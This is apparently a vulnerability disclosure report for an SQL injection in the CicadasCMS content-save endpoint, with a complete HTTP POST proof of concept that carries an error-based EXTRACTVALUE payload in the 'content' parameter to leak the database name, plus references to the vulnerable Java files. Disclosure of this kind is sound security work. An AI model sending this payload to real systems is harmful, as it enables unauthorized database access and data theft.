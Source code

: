 ### 💥 Vulnerability Report : SQL Injection in

------

**1. Product:**

- **Name:**  CicadasCMS
- **Version:** latest version
- **Repository:** https://gitee.com/westboy/CicadasCMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- /content/save

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the content parameter in the save interface. The backend directly obtains this parameter without input filtering or parameter precompilation, leading to SQL injection.

**5. Proof of Concept (PoC):**

```
POST /system/cms/content/save HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 751
Origin: http://localhost
Connection: close
Referer: http://localhost/system
Cookie: bjui_theme=blue; SESSION=f43bf728-f5bf-4110-9b1f-58cca099b88a
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

contentId=1249&userId=1&siteId=1&tableName=&status=0&title=%E4%B9%98%E7%9D%80%E6%AD%8C%E5%A3%B0%E7%9A%84%E7%BF%85%E8%86%80%E2%80%94%E2%80%94XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&keywords=XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&description=&categoryId=226&thumb=&url=&recommend=on&viewNum=242&author=%E9%83%AD%E5%B0%8F%E5%88%9A&tags=&content=' OR (SELECT EXTRACTVALUE(1,CONCAT(0x7e,(SELECT DATABASE()),0x7e))) OR '1&fujian=&laiyuan=XXX%E5%B8%82%E6%96%87%E8%81%94
```



If vulnerable, the response will contain an error message such as:



![image-20251030094805612](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030094805612.png)

**6. Vulnerable Code Reference**

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095204805.png)

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![image-20251030100422988](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030100422988.png)





src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030100317828](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030100317828.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095852738](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095852738.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095811962](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095811962.png)



The above code receives the 'content' parameter input from the client and directly concatenates it into the SQL statement without any filtering or precompilation. Therefore, an attacker can inject SQL statements through the 'content' parameter, leading to an SQL injection vulnerability.



**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS



**8. References:**

https://gitee.com/westboy/CicadasCMS